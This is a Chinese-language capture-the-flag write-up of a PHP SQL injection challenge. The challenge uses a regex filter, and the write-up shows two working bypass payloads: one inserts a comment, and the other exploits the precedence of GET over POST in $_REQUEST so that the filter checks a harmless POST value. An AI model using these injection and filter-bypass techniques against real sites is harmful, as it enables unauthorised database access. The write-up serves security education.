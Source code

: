 # Challenge 
```php 
<?php
if(isset($_REQUEST['id'])){
	if(preg_match("/'(?:\w*)\W*?[a-z].*(R|ELECT|OIN|NTO|HERE|NION)/i", $_REQUEST['id'])){
		die("Attack detected!!!");
	}
}

$sql = "select * from xxx where id = '{$_GET['id']}'";
echo $sql;
$result = sql_query($_GET['id']);
?>
```

# Solution 
## 法一
正面刚正则匹配。
payload：
```
http://localhost:2500/?id=1'/*1*/union slect * from flag %23
```
![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170914/8.png?raw=true)

## 法二
[$_REQUEST](http://php.net/manual/zh/reserved.variables.request.php)变量默认情况下包含了 $_GET，$_POST 和 $_COOKIE 的数组。在 php.ini 配置文件中，有一个参数variables_order
![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170914/5.png?raw=true)

其中几个字母（EGPCS）对应如下： Environment, Get, Post, Cookie, Server。这些字母的出现顺序，表明了数据的加载顺序。从三种默认配置来看，相对顺序均是`GP`，也就是说只要有POST参数进来，那么它就会覆盖同名的GET参数。如下图；
![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170914/6.png?raw=true)

所以就本题而言，如果在GET参数id处注入数据（比如 union select），而同时我们又通过POST方法传入一个id参数，那么服务器检测的是无害的POST数据，而在进行查询时带入的是有害的GET数据。

payload：
```
http://localhost:2500/?id=1' union select * from flag %23

POST: id=1
```
![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170914/9.png?raw=true)

# Refference
+ SEC-T CTF 2017 Naughty ads - Web